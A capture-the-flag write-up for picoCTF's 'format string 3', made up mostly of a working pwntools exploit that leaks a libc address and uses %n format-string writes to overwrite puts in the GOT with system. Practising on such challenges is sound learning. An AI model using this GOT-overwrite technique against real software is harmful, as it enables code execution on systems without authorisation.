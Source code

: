 # format string 3

```markdown
Tags: `Binary Exploitation` `format_string` `browser_webshell_solvable`
```

## **Description**

This program doesn't contain a win function. How can you win?

<figure><img src="../.gitbook/assets/Pasted image (26).png" alt=""><figcaption></figcaption></figure>

## **Solution Strategy**

```python
from pwn import *

def extract_address(output):
    hex_string = output.decode().strip()
    hex_value = int(hex_string, 16)
    return(hex_value)

def create_var_length_payload(num_chars):
    payload = b'' + str(num_chars).encode()
    payload = b'%' + (b'0' * (14-len(payload))) + payload + b'x'
    print(str(payload))
    return payload

def main():
    
    binary = ELF('./format-string-3')
    got_puts_address = binary.got.puts
    print("puts address = " + hex(got_puts_address))
    
    p = remote('rhea.picoctf.net', 61541)

    initial_output = p.recvuntil("Okay I'll be nice. Here's the address of setvbuf in libc: ")
    setvbuf_address = extract_address(p.recvline())
    print(type(setvbuf_address))
    print(f"Extracted setvbuf address: {hex(setvbuf_address)}")
    system_address = setvbuf_address - 0x2AC90
    print(f"Calculated system address: {hex(system_address)}")

    system_address_lo_3 = (system_address & 0xFF)
    system_address_lo_2 = (system_address & 0xFFFF00) >> 8
    system_address_lo_1 = (system_address & 0xFFFFFFFF000000)>>24

    print(f"Masked LO 3 system address: {hex(system_address_lo_3)}")
    print(f"Masked LO 2 system address: {hex(system_address_lo_2)}")
    print(f"Masked LO 1 system address: {hex(system_address_lo_1)}")

    if system_address_lo_2 < system_address_lo_3:
        print("system_address_lo_2 < system_address_lo_3")
        exit()

    if system_address_lo_1 < system_address_lo_2:
        print("system_address_lo_1 < system_address_lo_2")
        exit()

    exploit = create_var_length_payload(system_address_lo_3)
    exploit += b'%47$hhnA'

    exploit += create_var_length_payload(system_address_lo_2 - (system_address_lo_3+1))
    exploit += b'%48$hnAA'

    exploit += create_var_length_payload(system_address_lo_1 - (system_address_lo_2 +2))
    exploit += b'%49$nAAA'

    exploit += p64(got_puts_address) + p64(got_puts_address + 1) + p64(got_puts_address+3)
    p.sendline(exploit)

    with open("payload", "wb") as f:
        f.write(exploit)

    p.interactive()

if __name__ == '__main__':
    main()
```

* This script exploits a format string vulnerability in the `format-string-3` binary.
* It uses the `pwn` library to interact with the remote server `rhea.picoctf.net` on port `61541`.
* The `extract_address` function converts a hexadecimal string received from the server into an integer representing an address.
* The `create_var_length_payload` function generates a payload of variable length based on the number of characters specified. It constructs a format string with the appropriate padding and number of characters to print.
* The main function performs the exploitation:
  * It retrieves the address of `setvbuf` in libc and calculates the address of `system` by subtracting an offset.
  * It masks the lower bytes of the `system` address and splits it into three parts to ensure that each part is greater than or equal to the next.
  * It constructs the exploit payload:
    * Writing the least significant byte of the `system` address at the 47th argument.
    * Writing the next byte of the `system` address at the 48th argument.
    * Writing the most significant byte of the `system` address at the 49th argument.
    * Overwriting the `got_puts_address` with the address of `system`.
  * It sends the exploit payload to the server and receives the flag.
* The script also writes the exploit payload to a file named "payload" for reference.

## Flag

<figure><img src="../.gitbook/assets/picoCTF{G07_G07_92325514}.png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
